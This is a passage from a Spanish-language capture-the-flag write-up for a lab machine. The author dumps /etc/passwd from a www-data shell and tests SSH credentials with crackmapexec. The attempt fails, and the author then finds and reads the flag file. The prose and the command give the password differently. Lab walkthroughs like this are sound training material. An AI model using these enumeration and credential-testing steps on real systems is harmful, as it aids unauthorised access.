 VIsualizamos los usuarios del sistema
{% highlight bash %}
www-data@monkey:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:107:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
hackermentor:x:1000:1000:administrator,,,:/home/hackermentor:/bin/bash
{% endhighlight %}

Encontramos al usuario `hackermentor`. 

Probamos conectar por shh con este usuario encontrado y la contraseña anteriormente decifrada `junio01`, usaremos la herramienta `crackmapexec`:
{% highlight bash %}
┌──(cris㉿kali)-[~/Downloads]
└─$ crackmapexec ssh 192.168.254.139 -u 'hackermentor' -p 'junior01'  
[*] Initializing RDP protocol database
[*] Initializing FTP protocol database
[*] Old configuration file detected, replacing with new version
SSH         192.168.254.139 22     192.168.254.139  [*] SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
SSH         192.168.254.139 22     192.168.254.139  [-] hackermentor:junior01 Authentication failed.
{% endhighlight %}
Observamos que nos da un `Authentications falied`, por lo que las credenciales son erroneas.

Buscamos las banderas que son nuestro objetivo
{% highlight bash %}
www-data@monkey:/$ find / -name bandera*.txt 2>/dev/null
find / -name bandera*.txt 2>/dev/null
/home/hackermentor/bandera1.txt
{% endhighlight %}
Leemos el contenido de la `bandera1.txt`
{% highlight bash %}
www-data@monkey:/$ cat /home/hackermentor/bandera1.txt
cat /home/hackermentor/bandera1.txt
47ee0702e489445bae251df46bc88b73
{% endhighlight %}
